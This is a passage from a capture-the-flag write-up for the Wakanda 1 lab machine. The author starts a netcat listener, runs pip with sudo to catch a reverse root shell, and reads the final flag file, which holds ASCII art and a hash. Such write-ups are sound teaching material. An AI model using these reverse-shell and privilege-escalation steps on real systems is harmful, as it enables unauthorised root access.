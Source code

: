 I started up another netcat listener to receive the root shell, and executed pip with sudo:

```
root@kali:~/pwn# nc -lvp 9998
listening on [any] 9998 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 57599
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
```

Success! The root.txt was now accessible, reading it netted me the final flag: 

```
# cat /root/root.txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
          \\
           \\ Wakanda 1 - by @xMagass
            \\
             \\


Congratulations You are Root!

821ae63dbe0c573eff8b69d451fb21bc
```

Wakanda forever!
